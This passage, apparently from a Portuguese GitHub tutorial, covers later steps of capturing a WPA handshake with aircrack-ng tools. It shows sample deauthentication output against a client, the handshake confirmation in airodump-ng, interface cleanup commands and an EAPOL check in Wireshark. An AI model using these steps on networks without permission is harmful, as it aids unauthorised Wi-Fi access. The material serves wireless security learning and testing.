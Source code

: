  ##### A saida sera parecida com essa:
 ```
 12:35:25  Waiting for beacon frame (BSSID: 00:14:6C:7E:40:80) on channel 9
 12:35:25  Sending 64 directed DeAuth. STMAC: [00:0F:B5:AE:CE:9D] [ 61|63 ACKs]
 
 [ ACKs recebidos da STATION | ACKs recebidos do AP]
 ```
 
 
 
 
_________________________________________________________________________________________________________________________________________________________
 # Sexto passo
 ##### Se o Quinto passo for bem sucedido, no terminal do airodump-ng capturando o trafego da rede alvo aparecera a confirmação de que o handshake foi pego [ WPA handshake: 00:14:6C:7E:40:80
 Exemplo:
 ```
	 CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ WPA handshake: 00:14:6C:7E:40:80
                                                                                                            
          BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
          00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN              NETGEAR                         
          00:14:6C:7A:41:81   34 100       57       14    1   9  11e  WEP  WEP         bigbear 
          00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP   PSK  teddy       
 ```
 
 ##### Depois do handshake capturado você já pode encerrar a captura e se você verifcar o diretorio atual, vera alguns arquivos incluindo um arquivo arquivo.cap .
 
 ##### E depois da captura ser feita, você pode colocar a interface de volta em modo Managed
 
 ```
 $ sudo airmon-ng stop <interface>  # para o modo monitor
 
 $ service network-manager start  # reinicia o gerenciador de rede
 ```
 ($ iwconfig para confirmar o modo que a interface esta)
 
 
 
 
_________________________________________________________________________________________________________________________________________________________
 # Setimo passo
 ##### Você pode verificar se os pacotes de autenticação foram capturados com sucesso abrindo o arquivo .cap no wireshark e filtrando os pacotes EAPOL dessa forma:  
 
 ![eapol](https://github.com/geleiaa/wirelesssss/blob/main/images/eapol-ex.png)
 